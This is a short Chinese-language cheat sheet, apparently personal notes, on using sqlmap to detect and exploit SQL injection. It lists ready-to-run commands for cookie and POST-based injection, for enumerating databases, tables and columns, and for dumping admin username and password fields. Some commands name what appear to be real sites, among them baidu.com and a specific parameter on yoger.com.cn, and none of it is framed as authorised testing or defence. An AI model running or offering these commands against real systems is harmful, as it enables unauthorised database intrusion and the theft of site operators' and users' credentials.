推荐网站: http://www.91ri.org/6775.html 

当什么都弄不出来的时候：--flush-session --random-agent --level=5 --risk=3 -batch

## **检测注入**

### **基本格式**

sqlmap -u “http://www.vuln.cn/post.php?id=1”

默认使用level1检测全部数据库类型

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3

指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）

### **cookie注入**

当程序有防get注入的时候，可以使用cookie注入

sqlmap -u “http://www.baidu.com/shownews.asp” --cookie “id=11” --level 2（只有level达到2才会检测cookie）

### **从post数据包中注入**

可以使用burpsuite或者temperdata等工具来抓取post包

sqlmap -r “c:\tools\request.txt” -p “username” --dbms mysql    指定username参数

## **注入成功后**

### **获取数据库基本信息**

#### **查询有哪些数据库**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 --dbs

#### **查询test数据库中有哪些表**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test --tables

#### **查询test数据库中admin表有哪些字段**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test -T admin --columns

#### **dump出字段username与password中的数据**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test -T admin -C “username,password” --dump

#### **也可以提前用--dump**

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test -T admin --dump

sqlmap -u “http://www.vuln.cn/post.php?id=1”  --dbms mysql --level 3 -D test --dump

### **从数据库中搜索字段**

**在dedecms数据库中搜索字段admin或者password。**

sqlmap -r “c:\tools\request.txt” --dbms mysql -D dedecms --search -C admin,password





## **sqlmap的高级用法**

tamper:

http://www.myh0st.cn/index.php/archives/881/

https://xz.aliyun.com/t/2746

•https://www.freebuf.com/sectool/179035.html

## 其他技巧

### 指定参数

` python27 sqlmap.py -u "http://www.yoger.com.cn/brand-info.php?brand=Victor&sortID=1"  -p sortID `

